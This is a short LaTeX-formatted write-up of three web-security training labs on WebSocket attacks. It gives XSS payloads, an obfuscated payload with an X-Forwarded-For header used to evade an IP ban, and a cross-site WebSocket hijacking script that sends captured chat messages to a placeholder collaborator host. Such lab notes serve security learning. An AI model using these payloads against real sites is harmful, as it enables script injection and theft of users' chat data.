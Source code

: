 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
\subsection{Approach}\label{approach-14}

An interesting topic, where the first two labs are quite clear - we call
xss on the chat support side, and in the third we get the entire history
of the support chat via CSRF.\\
Arises at \textbf{Live Chat} page.\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\subsection{Labs}\label{labs-13}

\subsubsection{1. Manipulating WebSocket messages to exploit
vulnerabilities}\label{1-manipulating-websocket-messages-to-exploit-vulnerabilities}

\begin{quote}
Write something in Live Chat. Go to WebSocket History tab in Burp, catch
you request and send it to Repeater. Change your message to
\passthrough{\lstinline!<img src=123 onerror=alert()>!}
\end{quote}

\subsubsection{2. Manipulating the WebSocket handshake to exploit
vulnerabilities}\label{2-manipulating-the-websocket-handshake-to-exploit-vulnerabilities}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
X-Forwarded-For: 1.1.1.1
<img src=1 oNeRrOr=alert`1`>
\end{Verbatim}

\subsubsection{3. Cross-site WebSocket
hijacking}\label{3-cross-site-websocket-hijacking}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
\end{Verbatim}
\end{document}
